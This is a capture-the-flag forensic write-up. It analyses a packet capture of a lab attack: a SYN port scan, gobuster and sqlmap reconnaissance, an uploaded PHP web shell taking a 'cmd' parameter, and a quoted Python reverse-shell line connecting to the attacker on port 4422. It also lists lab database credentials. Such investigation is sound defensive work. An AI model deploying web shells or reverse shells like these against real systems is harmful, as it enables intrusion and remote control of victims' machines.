# BTLO Challenge: Network Analysis - Web Shell

**Date:** 26th June 2026  
**Tools Used:** Wireshark  
**Challenge Link:** [BTLO](https://blueteamlabs.online/home/challenge/network-analysis-web-shell-d4d3a2821b)

## Scenario Overview

> An alert was received on an SIEM for ‘Local to Local Port Scanning’ where an internal private IP began scanning another internal system.

**Objective:** Investigate the PCAP to determine if the activity is malicious or not.

## Investigation Steps

<strong>Identifying the Scanning IP</strong>

- **Approach**: Opened the PCAP in Wireshark, navigated to **Statistics > Conversations** and then switched to the TCP tab to isolate TCP packets.
- **Finding**: Noticed the source IP `10.251.96.4` sent SYN packets to numerous ports on `10.251.96.5`, confirming it as the scanner. By sorting by the victim's port scanned ascending or descending we can get the lowest and highest port scanned which were port `1-1024`





<strong>Identifying Reconnaissance Tools</strong>

#### Tool 1: Directory Brute-forcer
- **Approach**: Filtered for HTTP traffic from the attacker (`ip.addr == 10.251.96.4 && http`) and scrolled through the requests.
- **Finding**: A burst of GET requests to various web application paths (`/admin`, `/administrator`, `/admin-console`, `/administration`, etc.) with 404 responses. The User-Agent header revealed **`gobuster/3.0.1`**.



#### Tool 2: SQL Injection Scanner
- **Approach**: Filtered for the IP, HTTP and User Agents that are not **gobuster/3.0.1** and scrolled through the requests.
- **Finding**: Repeated POST requests to `/` with login parameters tested using SQL injection payloads. Following the TCP stream revealed error responses exposed **database credentials: root:bobthe@localhost**, confirming SQL injection vulnerability. User-Agent **sqlmap/1.4.7** confirmed the tool.





<strong>Finding the Uploaded Web Shell</strong>

- **Approach**: Applied the filter `http.request.method == POST` and examined POST requests.
- **Finding**: A POST to `/upload.php` with a `Referer` header pointing to `editprofile.php`. Right-clicked this packet and chose **Follow > TCP Stream** to view the full upload content.
- **Web Shell Name:** `dbfunctions.php`





<strong>Identifying the Command Execution Parameter</strong>

- **Approach**: Read the source code of `dbfunctions.php` from the TCP stream.
- **Finding**: The script contained `$_GET['cmd']`, indicating the attacker used the `cmd` parameter to execute commands.



<strong>Determining the First Executed Command</strong>

- **Approach**: Applied the filter `http.request.uri contains "/uploads/dbfunctions.php` and sorted by time.
- **Finding**: One the early GET request to the shell contained `?cmd=id`.



<strong>Classifying the Shell Connection Type</strong>

- **Approach**: Followed the TCP stream of the final malicious packet and examined the Python code payload.
- **Finding**: The code contained `s.connect(("10.251.96.4",4422))`, which indicates a **reverse shell**.




## Key Findings

| Finding | Value |
|---------|-------|
| IP responsible for conducting the port scan activity | `10.251.96.4` |
| Type of scan performed | TCP SYN scan |
| Directory brute-force tool used | `gobuster/3.0.1` |
| SQL injection tool used | `sqlmap` |
| Name of the uploaded web shell | `dbfunctions.php` |
| Command execution parameter | `cmd` |
| First command executed | `id` |
| Type of shell connection obtained | Reverse shell (port 4422) |

## Key Takeaways

- **User-Agent headers** are helpful but can be spoofed, always verify tools by their payload patterns.
- **TCP stream reassembly** is essential for extracting uploaded files and command payloads.
- Attackers follow a predictable kill chain: scanning → web reconnaissance → exploitation → shell access.
- A **reverse shell** bypasses inbound firewall rules by using an outbound connection.

## Files Included

- `BTLOPortScan.pcap`: original packet capture (Could be malicious, proceed with caution)
- `screenshots/`: screenshots from Wireshark.

*This report was created for educational purposes as part of a BTLO challenge.*

  

<strong>🤍 Baruch (and few cups of coffee ☕)</strong>
